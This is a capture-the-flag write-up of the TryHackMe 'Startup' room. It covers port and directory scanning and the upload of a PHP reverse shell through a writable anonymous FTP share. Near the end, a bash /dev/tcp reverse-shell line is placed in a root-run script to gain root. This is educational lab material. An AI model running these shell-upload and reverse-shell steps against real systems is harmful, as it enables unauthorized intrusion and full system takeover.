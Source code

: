 ```yaml
---
title: Startup-writeup-THM
date: 2024-01-07
categories: [room, easy]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/startup">Startup</a>"

I will start with a nmap scan:

```bash
nmap -sC -sV 10.10.107.18                  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 15:17 EST
Nmap scan report for 10.10.107.18
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.65.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all we see that in the ftp server allows Anonymous login and that there are 2 file in it.

I will start with that:

```bash
ftp 10.10.107.18                                                           

Connected to 10.10.107.18.
220 (vsFTPd 3.0.3)
Name (10.10.107.18:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56482|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

```bash
cat notice.txt                

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

We now have a name, Maya.

The site doesn’t tell us much:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png)

So I started a directory fuzzer:

```bash
ffuf -u http://10.10.107.18/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.107.18/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 59ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2807ms]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 172ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 66ms]
:: Progress: [20469/20469] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

I discovered the files directory which is the ftp share:

Maybe we can upload a php revshell with ftp.

We have write access in the ftp folder:

```bash

ftp> cd ftp
250 Directory successfully changed.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||40969|)
150 Ok to send data.
100% |***************************************************************************************************|  3461       70.22 MiB/s    00:00 ETA
226 Transfer complete.
3461 bytes sent in 00:00 (6.92 KiB/s)
ftp>
```

I uploaded my pentester monkey php reverse shell

 

```bash
nc -lvnp 4444                                                                                                 

listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.107.18] 40798
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:52:55 up 37 min,  0 users,  load average: 0.00, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

And we got a shell!

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn ("/bin/bash")'      
www-data@startup:/$
```

I also spawned a nicer shell with the help of python.

apart from the recipe, in the home directory there are also a vagrant directory, which appears to be a home directory, and an incidents directory:

```bash
ls

bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

In the incidents there is a pcapng file which we can read with wireshark, I downloaded the file uploading it in the ftp directory:

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

From here I looked up the traffic and found out that lennie, tried to login with his credentials with the www-data account:

```bash
Sorry, try again.
[sudo] password for www-data: <redacted>
```

So I tried logging in and it worked:

```bash
www-data@startup:/incidents$ su lennie
Password: <redacted>

lennie@startup:/incidents$
```

I then grabbed the user flag, and discovered a file in the etc folder that I owned that it was executed from root, I edited it with this and got a root shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.11.65.91/5555 0>&1
```